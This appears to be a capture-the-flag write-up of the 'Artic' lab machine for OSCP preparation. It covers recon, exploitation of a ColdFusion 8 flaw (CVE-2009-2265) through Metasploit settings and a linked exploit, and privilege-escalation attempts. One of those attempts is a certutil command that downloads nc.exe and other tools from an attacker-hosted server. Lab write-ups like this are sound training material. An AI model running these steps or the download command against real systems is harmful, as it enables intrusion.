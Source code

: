# Artic
Name: Artic
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: Old exploits and machines can be a headache

## Recon

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I research ways to host files on windows as it seems like a hobby at this point finding and archiving every possible way to transfer files. I ended up copying and pasting into a systeminfo.txt file to this directory. Wesng works, but does not find the intend route. 

```bash
./wes.py --update
./wes.py systeminfo.txt > wesng-out.txt
```
There is a kernel exploit for the cpu that has metasploit module to it. I tried that did not work as well doing it manually compiling it, but I could not finder one of the headers. Write ups suggest a pre-compiled binary. That seems really stupid. There is metasploit module for this so this machine is basically goodbye your metasploit usage in the exam machines given time constraints. 

[manual](https://www.exploit-db.com/exploits/15589) Seems like there are errors in the script.

At this point after multiple days trying to crack this. I revert this to a walkthrough for the remaining part.
From a multitude of writeups that I have then read and watched, either its through metasploit... or a precompiled binary from github...
I will return after complete all the others to retry without the precompiled binary. 
MS10-059
